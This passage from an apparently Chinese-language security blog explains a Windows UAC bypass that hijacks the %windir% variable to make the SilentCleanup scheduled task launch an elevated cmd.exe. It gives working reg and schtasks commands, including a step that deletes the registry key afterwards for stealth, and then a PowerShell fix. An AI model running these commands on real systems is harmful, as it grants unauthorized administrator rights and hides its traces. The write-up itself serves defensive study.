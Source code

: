 将%windir%设置为`cmd /K`，那么在启动计划任务SilentCleanup时会弹出cmd.exe

**注:**

cmd后面需要加参数，否则由于参数问题导致无法正常启动

/k表示弹出的cmd.exe在执行代码后不退出

为了增加隐蔽性（很多程序在启动时需要调用环境变量%windir%），在执行cmd的需要同时删除新添加的注册表键值`windir`，可以使用如下代码：

```
reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```


**注：**

以上代码来自于https://gist.github.com/tyranid/729b334bf9dc0f38184dbd47ae3f52d0#file-disk_cleanup_uac_bypass-bat

将环境变量设置为`cmd /K reg delete hkcu\Environment /v windir /f && REM`，那么在启动计划任务SilentCleanup时会弹出cmd.exe，接着执行删除注册表键值的命令：`reg delete hkcu\Environment /v windir /f`

完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-21/3-1.gif)

**注:**

参数如果换成`/a`，那么cmd.exe在执行后面的命令后会立即退出



## 0x04 防御检测
---

### 1、防御

修改计划任务SilentCleanup的启动参数，将环境变量去掉，换成`c:\Windows`，锁定路径

**管理员权限：**

```
$action = New-ScheduledTaskAction -Execute $env:windir\System32\cleanmgr.exe -Argument "/autoclean /d $env:systemdrive"
Set-ScheduledTask SilentCleanup -TaskPath \Microsoft\Windows\DiskCleanup -Action $action
```

**注：**

以上代码来自于https://gist.github.com/tyranid/9ef39228ba0acc6aa4039d2218006546#file-fix_diskclean_uac_bypass-ps1

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-5-21/4-1.png)

计划任务SilentCleanup的启动参数被修改为`c:\windows\system32\cleanmgr.exe`，无法通过修改环境变量%windir%对其劫持
